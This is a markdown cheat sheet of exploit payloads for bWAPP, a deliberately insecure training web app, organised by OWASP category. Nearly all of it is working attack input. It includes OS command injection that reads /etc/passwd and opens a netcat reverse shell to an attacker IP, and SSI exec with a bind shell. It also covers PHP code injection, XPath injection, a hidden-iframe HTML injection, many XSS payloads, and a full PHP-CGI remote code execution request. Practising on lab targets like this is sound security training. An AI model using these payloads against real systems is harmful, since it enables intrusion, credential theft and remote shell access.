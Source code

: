 <b>bWAPP is an insecure open-source web application designed to improve the skills of students, developers or people interested in IT security in order to discover and prevent web vulnerabilities</b>


<h3> As my expectation bWAPP is the best Insecure  web application to test owasp top 10 for Student</h3>
# A1 - Injection

### HTML Injection - Reflected (GET)
htmli_get.php

```
192.168.200.150/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```

### HTML Injection - Reflected (POST)

```
<h1>Hello</h1>
<h2>World</h2>
```
### HTML Injection - Stored (Blog)

Following solution taken from:

```
<div class="code"><iframe SRC="http://192.168.200.130:775" height="0" width="0"></iframe></div>
```
Attacker's Box:
```
nc -lvp 775
```

### OS Command Injection
```
127.0.0.1; cat /etc/passwd
127.0.0.1 & cat /etc/passwd
127.0.0.1 | cat /etc/passwd
127.0.0.1 && nc -vn 192.168.254.128 775 -e /bin/bash
```

Attacker's Box:
```
nc -lvp 775
```


### OS Command Injection - Blind
```
127.0.0.1 | sleep 10
```

### PHP Code Injection

```
192.168.200.130/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```

### Server-Side Includes:

```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#exec cmd="nc -lvp 775 -e /bin/bash" -->
Attacker's Box:
```
nc -nv 192.168.200.150 775

### XPath Injection (Login Form)
```
password=' or id='2
```

### XML/XPath Injection (Search)
```
genre=')]/password | a[contains(a,'
genre=') or contains(genre, '
genre=') or not(contains(genre, 'xxx') and '1'='2
```


# A3 - Cross-Site Scripting (XSS) 

### XSS - Reflected (GET)
xss_get.php

```
<script>alert(Hi )</script>
```
### XSS - Reflected (POST)

xss_post.php
```
<script>alert(2017)</script>
```

### XSS - Reflected (JSON)

xss_json.php
```
"}]}';prompt(2017)</script>
```

### XSS - Reflected (AJAX/JSON)

xss_ajax_2-1.php
```
<svg onload=prompt(2017)>
```

### XSS - Reflected (AJAX/XML)
xss_ajax_1-1.php
```
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
```

Alternatively I was able to get XSS to execute on the AJAX called.
```
xss_ajax_1-2.php?title=<html xmlns='http://www.w3.org/1999/xhtml'><script>prompt(2017)</script></html>
```

### XSS - Reflected (Back Button)
Modify Referer header field
```
Referer: ';alert(2017);'
```

### XSS - Reflected (Custom Header)
Add header field
```
bWAPP: <script>alert(2017)</script>
```

### XSS - Reflected (Eval)
```
date=alert(2017)
```

### XSS - Reflected (HREF)
```
Referer: <script>alert(2017)</script>
```

### XSS - Reflected (User-Agent)
```
User-Agent: <script>alert(2017)</script>
```
### PHP CGI Remote Code Execution
```
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.200.150
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=0; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<B><?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?></B>
```



